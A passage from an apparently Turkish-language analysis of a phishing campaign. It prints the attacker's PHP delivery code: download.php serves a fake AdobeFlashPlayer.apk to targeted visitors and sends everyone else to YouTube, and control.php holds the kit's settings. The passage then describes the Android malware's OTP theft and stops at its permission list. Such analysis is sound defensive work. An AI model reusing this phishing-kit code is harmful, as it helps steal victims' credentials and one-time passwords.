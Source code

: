 *download.php* dosyası PHP kodlarında ise ilgili zararlı yazılım indirilmekte ya da youtube mobil sitesine yönlendirildiği belirtir kod parçası.

```php
<?php
//error_reporting(0);
include "control.php";
if(isset($_GET["client-ID"]))
{

$file="downloads/".$ratname;
 header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename='.basename($file));
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}
else
{
echo '<script>window.location.assign("http://m.youtube.com")</script>';
}
?>
```

Saldırganın oltalama için kullandığı sunucu üzerinde tuttuğu bir diğer dosya *control.php*  dosyası içeriğinde ise  genel tanımlamalar bulunmaktadır.

```php
<?php

$send="Your email here";
$ratname="AdobeFlashPlayer.apk";
$logfile="logs.txt";

$email_feature=1;  // feature On (1) and off (0) toggle
$log_feature=1;  // feature On (1) and off (0) toggle
?>
```

Görüldüğü gibi sistemde web ortamından kurbana ait hesap bilgileri toplanırken arka diğer tarafta android telefonlar vasıtasıyla **OTP** mesaj bilgisi elde etmeye yönelik zararlı yazılımı cihaza yükletilmek istenmektedir..

indirilen **AdobeFlashPlayer.apk** mobil zararlı yazılımı ise aşağıda belirtilen işlemleri gerçekleştirmektedir.

![enter image description here](https://i.imgur.com/KIqGprP.png)


Uygulamanın istediği izinleri kontrol ettiğimiz zaman şu şekilde bir tablo ile karşı karşıya kalmaktayız
